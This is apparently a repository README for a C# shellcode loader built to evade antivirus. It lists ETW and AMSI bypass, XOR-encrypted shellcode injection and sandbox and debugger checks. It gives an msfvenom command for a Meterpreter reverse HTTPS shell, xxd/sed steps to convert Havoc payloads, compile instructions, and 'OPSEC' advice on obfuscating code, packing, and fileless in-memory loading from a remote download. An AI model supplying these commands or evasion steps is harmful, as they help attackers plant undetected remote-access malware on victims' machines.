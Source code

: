 ### C# ShellCode Loader 2
--------------------------------------
Shellcode loader (written in C#) that implements several antivirus bypass and defense evasion techniques.

#### FEATURES
  - Implements shellcode injection using the function 'CreateThreadpoolWait'
  - Shellcode encryption (XOR)
  - ETW bypass
  - AMSI bypass
  - Basic sandbox detection/evasion techniques
    - Exit if the program is running on a computer that is not joined to a domain
    - Exit if after sleeping for 15s, time did not really passed
    - Exit if a debugger is attached
    - Exit if making an uncommon API call fails (i.e. we are running in an AV sandbox that can't emulating it)
  - Compatible with shellcodes of multiple C2 frameworks such as Metasploit and Havoc
    
#### INPUT (Shellcode formats)
Your shellcode must be in C# format (see examples below) and then encrypted using XOR cipher algorithm.
Obviously, both the encrypted shellcode and your XOR key must be added in the file 'CsharpShellCodeLoader.cs' before you compile it.

- Metasploit C2 Framework  
  ```msfvenom -p windows/x64/meterpreter_reverse_https EXITFUNC=thread HandlerSSLCert=/path/cert.pem LHOST=IP LPORT=port -a x64 -f csharp -o  shellcode```  
  
- Havoc C2 Framework  
    1. Generate a new HAVOC payload with the format "Windows Shellcode" (Arch: x64 / Indirect Syscall: Enabled / Sleep Technique: WaitForSIngleObjectEx)  
    2. To convert the Havoc shellcode to the appropriate format you need to run these commands:  
       ```@Kali:/$ xxd -p shellcode | tr -d '\n' | sed 's/.\{2\}/0x&,/g' > shellcode2```  
       ```@Kali:/$ sed '$ s/.$//' shellcode2 > shellcode3```  

#### COMPILATION 
- I used "Developer PowerShell for VS 2022":
  - Microsoft (R) Visual C# Compiler version 4.5.0-6.23123.11
  - Command: csc /t:exe /out:C:\path\Loader.exe C:\path\CsharpShellCodeLoader2.cs

#### OPSEC Advices
- The file 'CsharpShellCodeLoader.cs' is not obfuscated. You should manually obfuscate it:
  - Rename the namespace, classes, methods, and variables.
  - Remove all existing comments and insert fake ones.
  - Remove all console output messages (i.e., Console.WriteLine("text")).
  - Modify the code structure or logic slightly if needed to evade signature-based detection.
- You may compress and obfuscate the shellcode loader executable using a packer such as ConfuserEx. However, this step is not strictly necessary to bypass most AV solutions if you performed sufficient manual obfuscation.
- Alternatively, you may choose to remotely download and execute the C# binary in memory using PowerShell and reflection-based code loading. This approach avoids writing the binary to disk, enhancing stealth and reducing forensic traces.
  
#### LICENSE
  - GNU General Public License v3.0
